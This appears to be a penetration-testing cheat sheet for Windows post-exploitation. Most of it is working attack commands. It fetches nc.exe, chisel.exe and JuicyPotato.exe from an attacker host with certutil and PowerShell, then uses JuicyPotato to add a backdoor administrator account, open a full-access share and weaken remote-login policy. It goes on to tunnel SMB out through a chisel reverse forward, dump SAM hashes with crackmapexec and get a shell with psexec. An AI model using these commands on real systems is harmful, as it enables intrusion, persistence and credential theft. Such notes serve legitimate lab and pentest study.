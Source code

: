 # Windows Machine {-}

certutil.exe -> netcat variant for Windows

certutil.exe -f -urlcache -split http://10.10.10.10/chisel.exe C:\Windows\temp

```bash
powershell -c iwr -uri http://<attacker_ip>/<file_to_download> -OutFile C:\Windows\Temp\nc.exe
```

## Active Directory {-}

### Golden Ticket Attack {-}

The goal of this attack is to generate a Ticket Granted Ticket. For this attack you thenneed to recover the hash of the **krbtgt** user that is the one who 
can create those tickets

## Check possible priviledge escalation vulnerabilities {-}

1. check os:

    ```bash
    systeminfo
    ```

1. copy the result and pase in a file in local

1. download windows-exploit-suggester.py

1. generate xlsx data base
    
    ```bash
    python3 windows-exploit-suggester.py --update
    ```

1. check systeminfo documentation

    ```
    python3 windows-exploit-suggester.py -i systeminfo.txt -d 2021-07-14-mssb.xlsx
    ```

1. github.SecWiki/windows-kernel-exploits

1. python -m http.server

1. certutil.exe -f

## Check command history {-}

```bash
dir/s *history.txt
```

## JuicyPotato {-}

Juicy Potato is a local privilege escalation tool that exploit Windows service accounts impersonation privileges.

1. Check user privilege

    ```bash
    whoami
    whoami /priv
    ```

    ```r
        knitr::include_graphics("images/juicy-impersonate-priv.png")
    ```

    Here we can see that `SeImpersonatePrivilege` is enabled. That means that we can use JuicyPotatoe to run commands

1. Check users in the system

    ```bash
    net user
    ```

1. Create User with Admin privilege

    - download JuicyPotato.exe and copy in the victim machine
    - create folder in C:\Windows\Temp
    - Transfer JuicyPotato to Windows Machine
    
        ```bash
        certutil.exe -f -urlcache -split http://10.10.10.10/JuicyPotato.exe JP.exe
        ```
    - Create user looping

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user looping looping123! /add"
        ```

    - Add user to Administrators group

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators looping /add"
        net user looping
        ```

    - Create Share folder where user with Administrators rules have Full privilege

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
        ```
    
    - Update local account policy to gain access to the system

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System 
                                                                    /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
        ```

    - Check with chisel and crackmapexec if user looping is now Pownd 

        - download chisel on attacker machine and on victim machine
        - run chisel on attacker machine

            ```bash
            ./chisel server --reverse --port 1234
            ```

        - run chisel on windows victim machine

            ```bash
            chisel.exe client 10.10.10.10:1234 R:445:127.0.0.1:445
            ```
        - check if revert port forwarding works

            ```bash
            crackmapexec smb 127.0.0.1
            ```

        - check if looping is powned
        
            ```bash
            crackmapexec smp -u 'looping' -p 'looping123!' --sam

            #OUTPUT
            SMB 127.0.0.1   445 MACHINENAME [*] machinename\looping:looping123! (Pwn3d!)
            ```
    
    - Connect to machine with psexec.python

        ```bash
        locate psexex.py
        psexec.py WORKGROUP/looping@127.0.0.1 cmd.exe
        ```
